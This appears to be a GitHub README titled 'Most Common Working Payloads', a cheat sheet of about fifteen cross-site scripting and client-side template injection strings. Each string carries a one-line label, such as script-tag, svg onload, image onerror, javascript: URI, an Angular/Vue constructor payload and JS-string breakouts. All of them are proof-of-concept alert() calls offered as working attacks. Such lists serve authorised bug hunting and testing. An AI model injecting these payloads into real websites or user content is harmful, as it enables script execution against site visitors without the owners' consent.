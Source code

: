 <h1> 🚀Most Common Working Payloads </h1>
<h2> This is list of XSS Payloads that worked in most cases for me

```html "><svg/onload=alert(1)>``` - Length bypass Svg Payload </br>
```html "><script>alert(1)</script>``` - Basic XSS Payload with script tag </br>
```html <div onmouseover="alert(document.domain);">``` - Onmouseover XSS Payload </br>
```html <IMG SRC="javascript:alert('XSS');">``` - Image XSS Directive Payload </br>
```html </style><script>a=eval;b=alert;a(b(/XSS/.source));</script>``` - Style Special Combination </br>
```html "><img src=x onerror=alert(1)>``` - Typical Image XSS Payload </br>
```html {{constructor.constructor(`alert(1)`)()}}``` - This is technically CSTI, but it is escalated to XSS for better Impact. It works mostly on Angular/Vue Applications. You can explore more about Template Injections on Internet </br>
```html <BODY onload=alert(1)>``` - Body Payload </br>
```html <BASE HREF="javascript:alert('XSS');//">``` - XSS with Base Tag </br>
```html &apos;-alert(1)-&apos;``` - Injecting alert inside HTML tag + HTML Encoding </br>
```html <IMG SRC=javascript:alert(&quot;XSS&quot;)>``` - Image Payload with HTML Entities </br>
```'-alert(1)-'```
```\';alert(document.domain)//``` - Inject Alert inside JS String </br>
```javascript:alert(1)``` - Works in many ways and combination, also can help escalating Open Redirect to XSS </br>
```http://www.<script>alert(1)</script .com```


<h2>by Kira Reys
